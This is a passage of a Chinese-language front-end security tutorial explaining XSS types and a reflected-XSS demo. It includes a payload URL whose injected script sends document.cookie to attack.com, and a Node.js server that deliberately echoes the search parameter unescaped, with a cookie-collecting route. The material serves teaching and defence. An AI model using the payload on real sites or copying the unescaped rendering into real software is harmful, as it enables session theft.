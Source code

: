 ```yaml
---
layout: mypost
title: XSS和CSRF
categories: [前端安全]
---
```


[文章来源 1](https://mp.weixin.qq.com/s/_2WeheJfK8ao3HrI4TXa8w)
[文章来源 2](https://www.cnblogs.com/hyddd/archive/2009/04/09/1432744.html)

# XSS

XSS 的全称叫跨站脚本攻击（Cross Site Scripting），攻击出现的原因一般是因为 Web 程序对用户的输入过滤不足导致的一种漏洞，攻击者可以把恶意的脚本代码注入到网页之中，当其他用户浏览时就会执行其中的恶意代码，对受害者产生各种攻击。XSS 一般分为三种类型：

- 反射型
- 存储型
- DOM 型

## 反射型 XSS 攻防实战

反射型 XSS 攻击的恶意脚本并没有被存储到后端数据库中，而是诱导用户点击某个精心拼接的恶意链接，从而达到攻击的目的。

### 攻击案例

一个常见的场景是用户在某电影网站搜索，假如请求地址是：

https://xxx.com/movies?q=功夫熊猫
在后台返回的结果页中，会显示用户搜索的电影名：

「功夫熊猫」的搜索结果为：
xxxxxxxxxxxxxxxxxxxxxxx

攻击者拼接了一个极度恶意的链接：

```js
https://xxx.com/movies?q=功夫熊猫<script>fetch(`https://attack.com?cookie=${document.cookie}`)</script>
```

如果用户点击了这个恶意链接，cookie 立马被盗。下面给出 Node.js 后端服务完整源码：

```js
const http = require("http");
const URL = require("url");

// HTML 模板
function renderHTML(tpl) {
  return `<!DOCTYPE html><html><head><meta charset="UTF-8"/></head><body>${tpl}</body></html>`;
}

// 路由分发器
const routes = {
  "GET /movies": (req, res) => {
    // 被攻击网站的电影搜索接口
    const tpl = req.query.q
      ? `<h3>「${req.query.q}」的搜索结果为：</h3>${Array(30).fill("x")}`
      : `请输入搜索的电影`;
    res.setHeader("Set-Cookie", ["name=keliq", "age=10"]);
    res.end(renderHTML(tpl));
  },
  "GET /cookies": (req, res) => {
    // 攻击者后台收集cookie的接口
    console.log(req.query);
    res.end();
  },
};
```